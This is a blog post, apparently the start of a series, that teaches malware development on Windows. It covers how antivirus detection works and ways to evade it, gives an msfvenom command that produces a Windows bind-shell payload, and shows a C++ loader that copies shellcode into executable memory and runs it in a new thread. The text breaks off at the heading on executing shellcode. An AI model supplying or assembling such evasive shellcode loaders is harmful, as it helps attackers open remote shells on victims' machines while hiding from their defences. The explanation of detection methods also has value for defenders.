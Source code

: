[Back to Main Page](../index.html) 

# Malware Development

<img src="../img/blog-22-malwarebanner.PNG" width="1000">

## The basics

This blog will be focused on a github project in regards of development of malicious software. We will explore and try to implement multiple techniques used by malicious applications to execute code, hide from defenses and persist.  For the purpose of this and following articles we will use MS Visual Studio on Windows 10.

To start things off, we will try to create a C++ application that run malicious shellcode, trying not to be caught by AV Software.  
Why C++ and not C# or PowerShell script? Because it’s much more difficult to analyze compiled binary when compared to managed code or script.

### How detections work

Antimalware solutions are based on three types of detection mechanisms:

- Signature: inspection of file checksums (MD5, SH1,...) and presence of known strings and byte sequences in the binary
- Heuristic: application behavior and identification of characteristics (functions that are usually used in malware)
- Sandboxing: Analysis in a monitored environment

Multiple techniques to evade different mechanisms exist. For example:

- Polymorphic: To defeat signature-based detection (can also be at least multiple times recompiled).
- Obfuscation: Can evade heuristic based detection
- Conditional: Various statements that detect and bypass sandboxes
- Encoded Info: Encoding and encrypting sensitive information can help bypass signature-based detection as well as heuristic detection

### Generating Shellcode

First, we open up MS Visual Studio, and create a new project. We will be creating a Windows C++ Console Application (x86). 
We can use Metasploit to generate some malicious shellcode, for example a bind shell. Bind TCP opens up a port on the system and allows a connection from the remote attacking box. 

`msfvenom -p windows/shell_bind_tcp LPORT=4444 -f c`

To execute shellcode, we need to allocate a new memory region, fill it with shellcode bytes and create a new thread. The source code of the application will look like this:

`##include <Windows.h>

void main()
{
	const char shellcode[] = "\xfc\xe8\x82 (...) ";
	PVOID shellcode_exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);
}`

### Executing shellcode
